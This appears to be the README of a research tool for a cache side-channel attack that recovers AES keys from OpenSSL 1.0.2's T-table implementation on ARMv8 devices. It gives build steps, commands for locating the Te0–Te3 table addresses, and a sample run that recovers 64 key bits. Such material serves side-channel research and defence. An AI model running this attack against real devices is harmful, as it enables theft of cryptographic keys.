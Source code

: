 # sync-aes-one-round attack

1. [How to build]
2. [How to run]

# 1. How to build for ARMv8

* build
```
$ cd lib/openssl-1.0.2
$ ./build_armv8.sh
$ cd ../libflush
$ make ARCH=armv8
$ cd ../../attack/sync-aes-one-round
$ ./build_armv8.sh
```

* clean
```
$ cd lib/openssl-1.0.2
$ ./clean.sh
$ cd../libflush
$ ./clean.sh
$ cd ../../attack/sync-aes-one-round
$ ./clean.sh
```

# 2. How to run

* Get T-table address (on host)
```
$ nm lib/openssl-1.0.2/libcrypto.so.1.0.0 | grep Te0
  0000000000166ec0 r Te0
$ nm lib/openssl-1.0.2/libcrypto.so.1.0.0 | grep Te1
  0000000000166ac0 r Te1
$ nm lib/openssl-1.0.2/libcrypto.so.1.0.0 | grep Te2
  00000000001666c0 r Te2
$ nm lib/openssl-1.0.2/libcrypto.so.1.0.0 | grep Te3
  00000000001662c0 r Te3
```

* Install binaries
```
$ (attack/sync-aes-one-round/server
   attack/sync-aes-one-round/attack
   attack/sync-aes-one-round/plain.txt
   lib/openssl-1.0.2/libcrypto.so.1.0.0)
   ==> install above 4 files to your device.
```

* Run attack (on device)
```
$ ./server &
  server is running
$ ./attack 3000 250 00166ec0 00166ac0 001666c0 001662c0 0 /usr/lib/libcrypto.so.1.0.0
  [attack info]
  ....
  progress : 100 / 3000
  ....
  real key :
  9e41005fd9a0c228e7b4312994aa4dc7
  infer key :
  90400050d0a0c020e0b0302090a040c0
  recover bits : 64
  end msg : end
  [1]+  Done                    ./server
```

